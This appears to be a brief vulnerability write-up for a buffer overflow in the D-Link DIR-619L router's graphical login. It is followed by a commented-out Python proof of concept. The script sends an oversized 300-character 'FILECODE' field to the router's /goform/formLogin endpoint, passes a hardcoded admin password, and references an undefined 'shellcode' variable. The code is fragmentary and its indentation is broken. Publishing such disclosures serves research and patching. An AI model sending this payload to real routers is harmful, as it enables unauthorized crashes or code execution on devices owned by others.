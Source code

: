 # dir_619l-buffer-overflow


#The router is set to open the graphical login. An unauthorized attacker can send attack packets to cause code execution.

#poc:

#import requests
#import sys
#import struct
#import string
#import base64
#def login(shellcode,user,password,ip):
	#postData = {
	#'login_name':'yuanshuo',
	#'curTime':"12345",
	#'FILECODE':"a"*300,
	#'VER_CODE':'vercode',
	#'VERIFICATION_CODE':'12345',
	#'login_n':user,
	#'login_pass':password,
	#}
	#response = requests.post('http://192.168.1.1/goform/formLogin',data=postData)
        
        #print 'http://' + ip + '/goform/formLogin'
        #print response.json


#if __name__ == "__main__":
	#login(shellcode,'admin', base64.b64encode('shuoshuo110'),'192.168.1.1')

